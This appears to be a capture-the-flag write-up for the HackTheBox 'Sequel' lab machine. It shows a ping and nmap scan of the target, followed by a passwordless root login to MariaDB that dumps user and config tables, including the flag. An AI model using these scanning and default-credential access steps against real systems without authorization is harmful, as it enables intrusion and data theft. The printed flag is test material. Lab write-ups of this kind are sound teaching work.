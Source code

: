 ```yaml
---
title: "HackTheBox - Sequel"
date: 2023-12-27 08:30:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, databases, mysql]
image:
    path: /assets/img/htb/Sequel.png
    alt: Sequel - HackTheBox
---
```


[**Sequel**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Fawn we will learn about **MySQL (My Sctuctured Query Language)**.

## Introduction

- Connect **Sequel** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with `ping` Target IP.

```bash
❯ ping 10.129.95.232

PING 10.129.95.232 (10.129.95.232) 56(84) bytes of data.
64 bytes from 10.129.95.232: icmp_seq=1 ttl=63 time=425 ms
64 bytes from 10.129.95.232: icmp_seq=2 ttl=63 time=257 ms
64 bytes from 10.129.95.232: icmp_seq=3 ttl=63 time=266 ms
64 bytes from 10.129.95.232: icmp_seq=4 ttl=63 time=504 ms

--- 10.129.95.232 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 256.704/362.845/503.874/105.416 ms
```

### Nmap

Scan ports using `nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port, `-T4` to speed up scanning (the higher the faster [0-5]).

```bash
❯ nmap 10.129.95.232 -sCV -T4

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-27 08:31 WIB
Nmap scan report for JSN.JaringanKU (10.129.95.232)
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
1862/tcp filtered mysql-cm-agent
3306/tcp open     mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsCompression, FoundRows, ConnectWithDatabase, LongColumnFlag, SupportsTransactions, IgnoreSigpipes, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, ODBCClient, SupportsLoadDataLocal, InteractiveClient, Speaks41ProtocolOld, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: '\c[~+VOh@Cq1=~'D]*X\'
|_  Auth Plugin Name: mysql_native_password
3371/tcp filtered satvid-datalnk

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 239.68 seconds
```

You can see, there are 3 results but the only one that opens is 3306/tcp which is the mysql service.

## Foothold

To run `mysql`, make sure you have the service, if you don't have it, download it. To ask for help use `--help`.

### Mysql

Use `-h` to connect to the host, and `-u` to log in using the username. Here we use the default user, namely `root` and we do not need to enter a password.

```
show databases; -> to display all databases.
use database; -> to use a database.
show tables; -> to display tables in the database.
select * from table; -> to display all the contents of the table.
```

```bash
mysql -h 10.129.95.232 -u root

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 74
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0,244 sec)

MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0,233 sec)

MariaDB [htb]> select * from users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0,232 sec)

MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0,589 sec)
```
